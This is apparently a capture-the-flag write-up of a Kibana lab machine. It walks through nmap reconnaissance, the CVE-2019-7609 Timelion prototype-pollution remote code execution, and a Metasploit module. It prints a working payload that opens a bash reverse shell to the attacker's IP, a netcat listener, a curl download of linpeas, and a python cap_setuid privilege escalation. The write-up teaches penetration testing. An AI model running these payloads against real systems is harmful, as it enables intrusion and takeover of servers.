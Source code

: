 Before you begin, always add your ip address to hosts file so as to avoid burden especially ip address related operations, while you are actively pentesting.

How to apply ?

![](attachment/cf3a2e5dd2d551b8640a2d493f3ee36f.png)

## Reconnaissance
 nmap payload:
└─# sudo nmap -sV -sC -p- kiba.thm

Unusual port number:

![](attachment/e8a15745496651c4b5b275912f8c037d.png)

![](attachment/c449e8ca809ba166e891781ff3d6294a.png)

What is Kibana ?
![](attachment/f63b01787e995edea417abe07af45384.png)

Suspicious path:
http://kiba.thm:5601/app/timelion#



## Exploitation

Useful resources about vulnerability:
- https://github.com/LandGrey/CVE-2019-7609
- https://github.com/mpgn/CVE-2019-7609

For the exploitation phase we have two ways to compromise the target.
- Manual payload execution on 
### Manual Exploitation - 1

After a couple of research process, I discovered the vulnerability itself which is **Prototype Pollusion** on **Timelion** feature of the **Kibana** - ElasticSearch supported and opensource data visualization platform.

![](attachment/729ac78be8e9db4f7c4fed3c058becbc.png)


Initial compromise:
- Used Payload:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.11.69.113/1337 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

- Netcat listener:
```
nc -lvnp 1337
```


Reverse Shell PoC:
![](attachment/c01fde4a727b62e56d674dae6346ddbf.png)



### Manual Exploitation - 2

Although I have taken reverse shell connection properly, trying a python script where I discovered the vulnerability that trigger RCE automatically.

```
# python2 CVE-2019-7609-kibana-rce.py -h

usage: CVE-2019-7609-kibana-rce.py [-h] [-u URL] [-host REMOTE_HOST]
                                   [-port REMOTE_PORT] [--shell]

optional arguments:
  -h, --help         show this help message and exit
  -u URL             such as: http://127.0.0.1:5601
  -host REMOTE_HOST  reverse shell remote host: such as: 1.1.1.1
  -port REMOTE_PORT  reverse shell remote port: such as: 8888
  --shell            reverse shell after verify

```

I will execute a payload below:

```
python2 CVE-2019-7609-kibana-rce.py -u http://10.10.163.241:5601 -host 10.11.69.113 -port 1234 --shell
```

However, it did not call back on my machine. After on my first shot, I got break-time and turn on hybrid mode on my system. Therefore, I am going to refresh the machine.

![](attachment/d24a174170333ddd84070e2414595cc2.png)

![](attachment/eaaad08b9760b6b943ea9af458e1c8cd.png)


Now it works ! After I restarted the machine, I was able to get my reverse shell !

![](./attachment/11df5f7c7c9ac5dfcab4d51099732301.png)


### Automated Exploitation

Metasploit Framework offers only three modules for **Kibana** platform. However, first approach was suitable for me. You can reach out the related module in below.

![](./attachment/c59ebbaa12eec0413d0a11bff25962e1.png)

To interact with correlated module:

```
use 0
```

Now you are ready to configure module specific settings.

In order to show options required by the module, use the below command:

```
show options
```

![](./attachment/c53a369d6204c98af36def3009c7b52d.png)

Modifying the *RHOSTS*, *TARGETURI* and *RPORT* is enough to execute our exploit.

To add necessary information to script settings:

```
set [needed attribute]

Example: set RHOSTS or set RPORT
```

For this scenario, do not forget to modify *RHOSTS*, *LHOST* and *LPORT*.

![](./attachment/a20b149b5028537d238919c11e7979b7.png)

Since I forgot to give *LHOST* and *LPORT* option, I was not able to run the script appropriately.



I have tried to run linpeas on tmp folder which allows users to run many scripts here ,but in this scenario it does not work. Therefore, I uploaded my files through /home/kiba

1. Deploy python server from local
```
python -m http.server 3131
```

2. Download linpeas from victim machine
```
curl http://10.11.69.113:3131/linpeas.sh -o linpeas.sh
```

3. Give executable permission to linpeas.sh
```
chmod +x linpeas.sh
```

4. Examine carefully  the linpeas output
- I found really useful evidence to escalate our privileges

![](./attachment/93756ad44bea650fa9d6eff977b07209.png)

- The crontab shows that the user Kiba has a cron job scheduled to run every minute. This job navigates to the directory /home/kiba/kibana/bin and runs the bash kibana command.

![](./attachment/1.png)

![](./attachment/sudo.png)

We have a possible privilege escalation vector known as Sudo Privileges:

Since Kiba is in the sudo group, check what commands you can run with sudo -l.

It did not work in this scenario:

```
  whoami
  kiba
  sudo -l
  sudo: no tty present and no askpass program specified
```

Furthermore, we have a binary named /home/kiba/.hackmeplease/python3, which has the capability cap_setuid+ep, which means that this Python binary can change user IDs (setuid). This is a potential privilege escalation vector since it allows the Python process to execute with elevated privileges.

![alt text](./attachment/2.png)

Let me pay attention on .hackmeplease :D

![alt text](./attachment/3.png)


Since we have the python3 binary and its vulnerability. In binary exploitation, we trust GFTOBins to escalate privileges:

https://gtfobins.github.io/gtfobins/python/


- On GFTOBins, we have many binaries available to elevate our privileges. However, today, we should look for Python binary. After a deep dive attempt, I recognized that I was dealing with cap_setuid+ep capability. Therefore, using this payload to escalate my privileges will be suitable.


![alt text](./attachment/4.png)

### Conclusion
All in all, this article demonstrates how different penetration testing methodologies can be used. From reconnaissance to post-exploitation, I provided three vital pathways for you to understand the idea behind the scene. The detailed steps, ranging from mapping out unusual ports (Kibana) to exploiting vulnerability and escalating privilege show the significance of understanding each phase deeply. Following the steps, applying knowledge practically, and adapting to challenges are crucial. Always remember that careful planning and paying attention to small details, such as setting up the Metasploit console or configuring script parameters correctly, can save you much trouble during the engagement